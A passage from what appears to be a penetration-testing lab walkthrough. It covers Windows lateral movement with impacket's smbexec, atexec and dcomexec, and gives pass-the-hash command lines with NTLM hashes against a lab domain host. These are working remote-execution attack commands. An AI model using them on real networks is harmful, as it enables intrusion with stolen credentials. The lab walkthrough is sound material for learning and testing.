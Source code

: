 #### SmbExec

SmbExec (pseudo-shell):

- Don’t upload executable
- Create a service on every request
- Get the command results on a share or on a server controlled by the attacker (with -mode SERVER)
- Protocol SMB
```
impacket-smbexec -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
```

![screenshot](pics/smbexec.png)

#### AtExec

AtExec (execute command):

- use a schedule task to run the command
- protocol SMB

```
impacket-atexec -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11 whoami
```
![screenshot](pics/atexec.png)

#### DcomExec

DecomExec (Distributed Component Object Model):

- pseudo shell (get the result in files retrieved with smb)
- protocol DCERPC + SMB
```
impacket-dcomexec -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
```
![screenshot](pics/dcomExec.png)
